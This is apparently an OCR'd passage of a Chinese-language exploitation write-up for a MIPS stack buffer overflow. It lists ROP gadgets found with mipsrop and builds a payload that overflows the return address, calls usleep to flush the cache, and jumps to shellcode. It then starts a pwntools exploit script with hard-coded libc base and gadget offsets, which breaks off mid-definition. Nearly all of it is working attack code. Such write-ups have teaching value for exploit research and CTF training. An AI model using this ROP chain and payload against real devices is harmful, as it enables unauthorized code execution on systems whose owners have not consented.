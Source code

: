 `mipsrop.find("move    $t9, $s2")`
```asm
.text:0008F3A4                 move    $t9, $s2
.text:0008F3A8                 jalr    $t9 ; uselocale
.text:0008F3AC                 move    $s0, $v0

.text:0008F3B0                 lw      $ra, 0x24+var_s10($sp)
.text:0008F3B4                 move    $v0, $s0
.text:0008F3B8                 lw      $s3, 0x24+var_sC($sp)
.text:0008F3BC                 lw      $s2, 0x24+var_s8($sp)
.text:0008F3C0                 lw      $s1, 0x24+var_s4($sp)
.text:0008F3C4                 lw      $s0, 0x24+var_s0($sp)
.text:0008F3C8                 jr      $ra
.text:0008F3CC                 addiu   $sp, 0x38
```
因此就可以找到以下调用链可是实现溢出后先调用sleep函数刷新数据区到当前指令区，然后再跳转到shellcode。
```python
payload =  ''
payload += 'a'*508
payload += p32(set_s3_addr+libc_base)          # overflow return address1
payload += 'b'*44
payload += '0000'						#s0
payload += p32(jr_t9_jr_ra+libc_base)	#s1    # goto sleep
payload += p32(usleep+libc_base)		#s2    # sleep addr
payload += '3333'						#s3
payload += p32(set_a0_addr+libc_base)	#ra    # overflow return address2
payload += 'c'*48
payload += p32(jr_a1+libc_base)			#s3    # goto a1(shellcode)
payload += p32(addiu_a1_sp+libc_base)	#ra    # overflow return address3,modify a1 to sp+24(shellcode),goto s3
payload += 'd'*24
payload += shellcode

```
# exp
以下exp包含上述两个payload的实现：
```python
from pwn import *
context.log_level = 'debug'

libc_base = 0x7f62f000

set_a0_addr = 0x124474
# .text:00124474                 move    $t9, $s1
# .text:00124478                 jalr    $t9 ; close
# .text:0012447C                 li      $a0, 1
set_s3_addr = 0x0A0C7C
# .text:000A0C7C                 lw      $ra, 0x2C+var_s10($sp)
# .text:000A0C80                 lw      $s3, 0x2C+var_sC($sp)
# .text:000A0C84                 lw      $s2, 0x2C+var_s8($sp)
# .text:000A0C88                 lw      $s1, 0x2C+var_s4($sp)
# .text:000A0C8C                 lw      $s0, 0x2C+var_s0($sp)
# .text:000A0C90                 jr      $ra
# .text:000A0C94                 addiu   $sp, 0x40
jr_t9_jr_ra = 0x8F3A4
# .text:0008F3A4                 move    $t9, $s2
# .text:0008F3A8                 jalr    $t9 ; uselocale
# .text:0008F3AC                 move    $s0, $v0

# .text:0008F3B0                 lw      $ra, 52($sp)
# .text:0008F3B4                 move    $v0, $s0
# .text:0008F3B8                 lw      $s3, 48($sp)
# .text:0008F3BC                 lw      $s2, 44($sp)
```